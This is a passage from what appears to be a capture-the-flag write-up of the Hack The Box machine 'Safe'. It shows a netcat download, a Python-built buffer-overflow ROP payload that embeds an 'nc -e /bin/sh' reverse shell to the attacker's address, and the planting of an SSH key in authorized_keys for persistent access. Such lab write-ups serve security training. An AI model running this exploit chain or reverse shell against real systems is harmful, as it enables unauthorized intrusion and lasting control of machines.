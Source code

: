    300K .......... .......... .......... .......... .......... 37% 4.55M 0s
   350K .......... .......... .......... .......... .......... 42% 2.78M 0s
   400K .......... .......... .......... .......... .......... 48% 4.13M 0s
   450K .......... .......... .......... .......... .......... 53% 5.26M 0s
   500K .......... .......... .......... .......... .......... 58% 5.75M 0s
   550K .......... .......... .......... .......... .......... 64% 4.37M 0s
   600K .......... .......... .......... .......... .......... 69% 4.64M 0s
   650K .......... .......... .......... .......... .......... 74% 4.73M 0s
   700K .......... .......... .......... .......... .......... 80% 4.79M 0s
   750K .......... .......... .......... .......... .......... 85% 8.24M 0s
   800K .......... .......... .......... .......... .......... 90% 6.02M 0s
   850K .......... .......... .......... .......... .......... 96% 5.90M 0s
   900K .......... .......... .......... .......              100% 8.67M=0.2s

2019-10-13 21:53:02 (4.31 MB/s) - ‘/home/user/nc’ saved [959800/959800]
{% endhighlight %}

<p>I then repeated the command setting it to executable with <code>chmod +x /home/user/nc</code>. With my local listener setup, I format the command to connect back to me.</p>

{% highlight python %}
python -c 'print "A"*112 + "/bin/sh|" + 
"\x06\x12\x40\x00\x00\x00\x00\x00" + 
"\x6e\x11\x40\x00\x00\x00\x00\x00" + 
"\x6e\x11\x40\x00\x00\x00\x00\x00" + 
"\x6e\x11\x40\x00\x00\x00\x00\x00" + 
"\x52\x11\x40\x00\x00\x00\x00\x00" + 
"/home/user/nc -e /bin/sh 10.10.15.xxx 1337;" + 
"C"*100' > custom13.txt
{% endhighlight %}

{% highlight shell %}
root@kali:~/Desktop/HTB/Safe# cat custom13.txt | nc 10.10.10.147 1337
 21:54:58 up  3:01,  1 user,  load average: 0.00, 0.01, 0.00
{% endhighlight %}

<p align="center">
<img src="{{ '/assets/htb-safe/usershell1.PNG' | relative_url }}">
</p>

<p>Now that there is a limited shell, let's add the ssh keys and connect back properly.</p>

{% highlight shell %}
echo "ssh-rsa AAAAB3NzaC1yc2EA.....OR1FcXBuOItl root@kali" > authorized_keys
{% endhighlight %}

{% highlight shell %}
root@kali:~/Desktop/HTB/Safe# ssh user@10.10.10.147
Linux safe 4.9.0-9-amd64 #1 SMP Debian 4.9.168-1 (2019-04-12) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sun Oct 13 20:03:13 2019 from 10.10.14.38
user@safe:~$ pwd
/home/user
user@safe:~$ id
uid=1000(user) gid=1000(user) groups=1000(user),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev),112(bluetooth)
{% endhighlight %}
